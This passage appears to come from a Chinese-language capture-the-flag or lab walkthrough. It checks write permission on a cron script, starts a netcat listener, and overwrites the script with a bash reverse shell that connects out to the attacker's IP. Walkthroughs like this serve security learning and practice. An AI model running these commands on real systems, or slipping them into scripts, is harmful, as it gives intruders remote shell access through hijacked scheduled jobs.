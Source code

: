 ![alt text](images/image17.png)


#### 使用指令
```bash
# 檢查是否有修改權限
ls -l /var/www/.mysecretcronjob.sh
```

截圖如下：

![alt text](images/image18.png)

- 可以進行修改

#### 使用指令

```bash
# 在本機上用 netcat 監聽 20 準備進行反向注入
nc -lvnp 20
# 將執行 bash 寫入 .mysecretcronjob.sh
echo "bash -i >& /dev/tcp/$YOUR_IP/20 0>&1" > /var/www/.mysecretcronjob.sh
# 給予檔案執行權
chmod +x /var/www/.mysecretcronjob.sh
```


截圖如下：

![alt text](images/image19.png)
